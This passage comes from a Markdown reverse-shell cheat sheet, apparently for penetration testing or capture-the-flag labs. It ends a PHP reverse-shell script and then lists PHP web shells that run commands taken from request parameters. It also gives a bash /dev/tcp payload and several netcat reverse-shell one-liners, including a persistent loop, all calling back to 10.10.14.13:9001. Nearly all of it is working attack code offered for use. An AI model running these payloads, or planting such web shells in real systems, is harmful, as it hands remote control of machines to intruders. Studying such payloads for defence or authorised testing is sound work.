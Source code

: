 ```php
proc_close($process);

function printit ($string) {
    if (!$daemon) {
        print "$string\n";
    }
}
?>
```

### PHP Command Execution
```php
# Simple PHP command execution
<?php system($_GET['cmd']); ?>

# More advanced web shell
<?php 
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>

# POST request shell
# POST /shell.php
# cmd=bash -c 'bash -i /dev/tcp/10.10.14.13/9001 0>&1'
```

---

## Netcat Reverse Shells

### Traditional Netcat
```bash
# Basic netcat reverse shell
nc -e /bin/sh 10.10.14.13 9001

# Alternative if -e is not available
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9001 >/tmp/f

# Using ncat (Nmap's netcat)
ncat 10.10.14.13 9001 -e /bin/bash

# OpenBSD netcat
nc 10.10.14.13 9001 -e /bin/sh
```

### Advanced Netcat
```bash
# Netcat with PTY
nc -e /bin/bash 10.10.14.13 9001

# Netcat persistent shell
while true; do nc -e /bin/bash 10.10.14.13 9001; sleep 60; done

# UDP reverse shell
nc -u 10.10.14.13 9001 -e /bin/bash
```

---